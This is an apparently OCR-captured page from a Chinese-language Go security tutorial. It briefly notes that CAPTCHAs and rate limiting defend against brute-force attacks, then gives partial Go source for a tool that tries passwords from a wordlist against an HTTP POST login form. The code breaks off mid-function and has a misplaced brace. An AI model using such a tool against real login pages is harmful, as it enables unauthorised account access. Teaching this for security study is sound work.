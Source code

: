 要防止此类攻击，请实施验证码系统或速率限制功能。

请注意，每个 web 应用程序都可以有自己的身份验证方式。这不是一个一刀切的解决方案。它提供了一个基本的`HTTP POST`表单登录示例，但需要针对不同的应用程序进行轻微修改。

```go
package main 

import ( 
   "bufio" 
   "bytes" 
   "fmt" 
   "log" 
   "net/http" 
   "os" 
) 

func printUsage() { 
   fmt.Println(os.Args[0] + ` - Brute force HTTP Login Form 

Passwords should be separated by newlines. 
URL should include protocol prefix. 
You must identify the form's post URL and username and password   
field names and pass them as arguments. 

Usage: 
  ` + os.Args[0] + ` <pwlistfile> <login_post_url> ` + 
      `<username> <username_field> <password_field> 

Example: 
  ` + os.Args[0] + ` passwords.txt` +
      ` https://test.com/login admin username password 
`) 
} 

func checkArgs() (string, string, string, string, string) { 
   if len(os.Args) != 6 { 
      log.Println("Incorrect number of arguments.") 
      printUsage() 
      os.Exit(1) 
   } 

   // Password list, Post URL, username, username field, 
   // password field 
   return os.Args[1], os.Args[2], os.Args[3], os.Args[4], os.Args[5] 
} 

func testLoginForm( 
   url, 
   userField, 
   passField, 
   username, 
   password string, 
   doneChannel chan bool, 
) 
{ 
   postData := userField + "=" + username + "&" + passField + 
      "=" + password 
   request, err := http.NewRequest( 
      "POST", 
      url, 
      bytes.NewBufferString(postData), 
   ) 
   client := &http.Client{} 
   response, err := client.Do(request) 
   if err != nil { 
```